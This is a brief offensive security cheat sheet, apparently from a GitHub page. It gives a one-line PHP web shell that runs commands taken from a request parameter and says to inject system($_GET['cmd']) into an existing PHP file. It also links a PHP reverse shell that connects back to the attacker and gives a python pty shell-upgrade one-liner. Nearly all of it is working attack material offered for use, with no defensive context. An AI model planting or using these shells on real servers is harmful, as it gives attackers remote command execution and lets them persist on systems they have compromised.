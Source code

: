 
Basic command injection just add `?cmd=COMMAND` to inject commands
```php
<?php system($_REQUEST['cmd']); ?>
```

Inject the following code in an existing PHP file to get the same effect:
```php
system($_GET['cmd']);
```

### Persistent Reverse Shell
Creates a connection from the target server to your local machine

https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Upgrade shell
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
